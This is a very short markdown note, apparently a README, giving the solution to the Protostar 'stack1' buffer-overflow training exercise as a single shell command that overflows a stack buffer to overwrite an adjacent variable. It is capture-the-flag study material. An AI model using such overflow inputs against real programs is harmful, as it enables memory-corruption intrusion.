 ## protostar-stack1

rewrite data on stack

## 

```sh

/opt/protostar/bin/stack1 $(python -c 'print "a"*64+"dcba"')

```